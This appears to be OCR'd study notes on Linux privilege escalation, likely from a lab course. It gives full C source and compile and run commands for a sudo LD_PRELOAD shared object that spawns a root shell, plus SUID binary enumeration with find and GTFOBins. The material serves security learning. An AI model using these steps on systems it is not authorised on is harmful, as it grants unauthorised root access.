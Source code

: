 1. Check for LD\_PRELOAD (with the env\_keep option).
2. Write a simple C code compiled as a share object (.so extension) file.
   * C code will simply spawn a root shell.
   * Save code as shell.c.

\#include \<stdio.h>

\#include \<sys/types.h>

\#include \<stdlib.h>

void \_init() {

unsetenv("LD\_PRELOAD");

setgid(0);

setuid(0);

system("/bin/bash");

}

1. Compile it using gcc (GNU Compiler Collection) into a shared object file.

gcc -fPIC -shared -o shell.so shell.c -nostartfiles

1. Run the program with sudo rights and the LD\_PRELOAD option pointing to the .so file.
   * Apache2, find, or almost any of the programs that can be run with sudo can be used.

sudo LD\_PRELOAD=/home/user/ldpreload/shell.so find

1. This will result in a shell spawn with root privileges.

### **Privilege Escalation: SUID** <a href="#sxncjttl0c6e" id="sxncjttl0c6e"></a>

* Linux files can have read, write, and execute permissions.
  * Given to users within their privilege levels.
  * SUID (Set-user Identification) allow files to be executed with permission level of the file owner.
  * SGID (Set-group Identification) allow files to be executed with permission level of the group owner.
    * s bit set showing file's special permission level.
* find / -type f -perm -04000 -ls 2>/dev/null lists files that have SUID or SGID bits set.
  * Compare executables on this list with[ GTFOBins](https://gtfobins.github.io/).
  * Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set.
  * Use[ this link](https://gtfobins.github.io/#+suid) for pre-filtered list.
    * List shows that base64 has the SUID bit set.

1722 44 -rwsr-xr-x 1 root root 43352 Sep 5 2019 /usr/bin/base64

SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
